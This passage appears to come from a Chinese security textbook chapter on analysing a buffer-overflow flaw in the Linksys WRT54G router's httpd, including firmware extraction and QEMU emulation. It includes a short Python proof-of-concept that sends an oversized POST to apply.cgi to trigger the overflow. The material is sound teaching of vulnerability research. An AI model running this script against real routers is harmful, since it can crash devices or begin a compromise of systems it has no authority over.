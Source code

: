 * * *

下载Linksys WRT54G路由器4.00.7版本的固件，下载链接为[http://download.pchome.net/ driver/network/route/wireless/down-129948-2.html](http://download.pchome.net/%20driver/network/route/wireless/down-129948-2.html)，解压缩后得到固件WRT54GV3.1_4.00.7_US_ code.bin。 使用Binwalk将固件中的文件系统提取出来，如下图所示。

![图13-2>](http://drops.javaweb.org/uploads/images/efe6339e255cd5190b6b12f456c54c51d5589f35.jpg)

该漏洞的核心组件为 /usr/sbin/httpd，如下图所示。

![图13-3](http://drops.javaweb.org/uploads/images/6d8e0264f35160559a5ec19af8be03106ab01290.jpg)

13.2.2　修复运行环境
-------------

* * *

从漏洞公告中我们已经知道，当路由器HTTPD的apply.cgi处理脚本接收长度大于10 000字节的POST请求时会触发缓冲区溢出漏洞。该漏洞的测试POC如下。 源码　wrt54g_test.py

```
1 import sys
2 import urllib2 
3 try:
4     target = sys.argv[1]
5 except:
6     print "Usage: %s <target>" % sys.argv[0]
7     sys.exit(1) 
8 url = "http://%s/apply.cgi" % target
9 buf  = "\x42"*10000+"\x41"*0x4000      # POST parameter name 
10 req = urllib2.Request(url, buf)
11 print urllib2.urlopen(req).read()

```

*   第8行：访问存在漏洞的apply.cgi处理脚本。
*   第9行：构造超过10 000字节的数据（这里我们构造一段足够长的数据）。

当我们使用模拟器（QEMU）运行路由器中的应用程序（如这里的Web服务器）时，经常会遇到一个问题——模拟器缺乏硬件的模拟，导致程序无法执行。而需要执行的Web服务器就是应用程序试图采用NVRAM中的信息来配置参数，但由于找不到设备导致了错误的发生。在路由器中，常见的NVRAM动态库libnvram.so提供了`nvram_get()` 函数和`nvram_set()`函数来获取和设置配置参数。如果使用模拟器运行应用程序，会在调用`nvram_get()` 函数时失败，导致应用程序无法运行（因为模拟器中没有NVRAM）。使用如下命令运行HTTPD，如下图所示。

```
$ cp $(which qemu-mipsel) ./
$ chroot ./ ./qemu-mipsel ./usr/sbin/httpd
$ netstat -an|grep 80

```

![图13-4](http://drops.javaweb.org/uploads/images/291f083005b202012dda01da7486c5d650bcb5a4.jpg)

在运行的过程中可以看到，程序报错，提示找不到 /dev/nvram文件或目录，且使用netstat命令查看当前系统开放的端口时没有发现80端口，Web服务器启动失败。

### 1．修复NVRAM

* * *
